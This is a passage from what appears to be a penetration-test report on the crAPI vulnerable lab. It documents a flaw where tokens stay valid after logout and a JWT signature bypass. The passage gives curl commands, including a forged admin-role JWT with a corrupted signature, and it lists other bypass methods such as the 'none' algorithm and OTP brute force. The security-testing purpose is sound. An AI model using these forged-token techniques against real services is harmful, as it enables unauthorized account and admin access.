2. Test various logout endpoints:
```bash
curl -k -X POST "https://crapi.sandbox.local:8888/logout"
curl -k -X POST "https://crapi.sandbox.local:8888/api/logout"  
curl -k -X POST "https://crapi.sandbox.local:8888/auth/logout"
```

3. Verify token still works after logout attempts:
```bash
curl -k -H "Authorization: Bearer [SAME_TOKEN]" "https://crapi.sandbox.local:8888/identity/api/v2/user/dashboard"
```

**Proof of Impact:**
- Token remains fully functional after multiple logout attempts
- No server-side token blacklisting mechanism
- 7-day attack window for compromised tokens
- Users cannot truly log out for security purposes

### AUTH-VULN-12: Cross-Service JWT Signature Bypass

**Summary:**
- **Vulnerable location:** JWT signature validation in Identity service dashboard
- **Overview:** Identity service accepts malformed JWT signatures while properly rejecting missing signatures
- **Impact:** Authentication bypass through corrupted signature acceptance
- **Severity:** Critical

**Prerequisites:** None

**Exploitation Steps:**

1. Create JWT with corrupted signature:
```bash
# Original token with valid signature replaced with random string
curl -k -H "Authorization: Bearer eyJhbGciOiJSUzI1NiJ9.eyJzdWIiOiJhZG1pbkBleGFtcGxlLmNvbSIsImlhdCI6MTc1ODY1NTI0NCwiZXhwIjoxNzU5MjYwMDQ0LCJyb2xlIjoiYWRtaW4ifQ.CORRUPTED_SIGNATURE" "https://crapi.sandbox.local:8888/identity/api/v2/user/dashboard"
```

2. Test various signature corruption methods:
   - Wrong signature
   - Partially corrupted signature  
   - "none" algorithm with admin payload

**Proof of Impact:**
- Identity service dashboard endpoint accepts corrupted JWT signatures
- Successful privilege escalation to admin role with invalid signatures
- Workshop and Community services properly reject malformed tokens (comparison confirmed)
- Authentication bypass vulnerability specific to Identity service


## Summary Statistics

- **Total Vulnerabilities Exploited:** 12
- **Critical Severity:** 8 vulnerabilities
- **High Severity:** 2 vulnerabilities  
- **Medium Severity:** 2 vulnerabilities
- **Complete Authentication Bypass Methods:** 5 (Algorithm confusion, None algorithm, KID injection, Signature bypass, OTP brute force)
- **User Enumeration Vectors:** 3 (Login, Signup, Password reset)
- **Abuse Defense Failures:** 3 (Login brute force, Account creation, OTP brute force)
